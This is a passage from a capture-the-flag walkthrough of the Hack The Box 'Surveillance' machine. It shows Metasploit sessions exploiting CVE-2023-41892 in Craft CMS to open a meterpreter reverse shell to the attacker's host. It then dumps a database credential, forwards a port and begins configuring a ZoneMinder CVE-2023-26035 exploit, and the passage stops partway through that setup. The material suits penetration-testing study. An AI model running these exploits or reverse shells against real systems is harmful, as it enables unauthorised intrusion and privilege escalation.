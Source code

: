 #### Use `exploit/linux/http/craftcms_unauth_rce_cve_2023_41892` Metasploit module to exploit [CVE-2023-41892](https://nvd.nist.gov/vuln/detail/CVE-2023-41892) to gain foothold
```
┌──(magicrc㉿perun)-[~/attack/HTB Surveillance]
└─$ msfconsole -q                                                                                                                   
[*] Starting persistent handler(s)...
msf > use craftcms_unauth_rce_cve_2023_41892
[*] Using exploit/linux/http/craftcms_unauth_rce_cve_2023_41892
[*] Using configured payload php/meterpreter/reverse_tcp
msf exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > set RHOST http://surveillance.htb/
RHOST => http://surveillance.htb/
msf exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > set LHOST tun0
LHOST => tun0
msf exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > run
[*] Started reverse TCP handler on 10.10.16.34:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.129.230.42
[+] Deleted /var/www/html/craft/web/mCpzCllLknxSkYoH.php
[+] Deleted /tmp/phpoj0Gnj
[*] Meterpreter session 1 opened (10.10.16.34:4444 -> 10.129.230.42:47482) at 2025-09-17 10:41:48 +0200

meterpreter > getuid
Server username: www-data
```

### Escalate to `zoneminder` user by exploiting [CVE-2023-26035](https://nvd.nist.gov/vuln/detail/CVE-2023-26035) in Zoneminder 1.36.22

#### Identify Zoneminder 1.36.22 running on `127.0.0.1:8080`
Opened port and databases credentials were found using `linpeas`.
```
meterpreter > shell
Process 49106 created.
Channel 5 created.
mysql -u zmuser -pZoneMinderPassword2023 -D zm  --batch --skip-column-names -e "SELECT Value FROM Config where Name = 'ZM_DYN_CURR_VERSION';"
1.36.32
```

#### Use `exploit/unix/webapp/zoneminder_snapshots` Metasploit module to exploit [CVE-2023-26035](https://nvd.nist.gov/vuln/detail/CVE-2023-26035)
```
meterpreter > portfwd add -l 8080 -p 8080 -r 127.0.0.1
[*] Forward TCP relay created: (local) :8080 -> (remote) 127.0.0.1:8080
meterpreter > background
[*] Backgrounding session 1...
msf exploit(linux/http/craftcms_unauth_rce_cve_2023_41892) > use exploit/unix/webapp/zoneminder_snapshots
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(unix/webapp/zoneminder_snapshots) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf exploit(unix/webapp/zoneminder_snapshots) > set RPORT 8080
RPORT => 8080
msf exploit(unix/webapp/zoneminder_snapshots) > set TARGETURI /
TARGETURI => /
msf exploit(unix/webapp/zoneminder_snapshots) > set SRVPORT 8081
```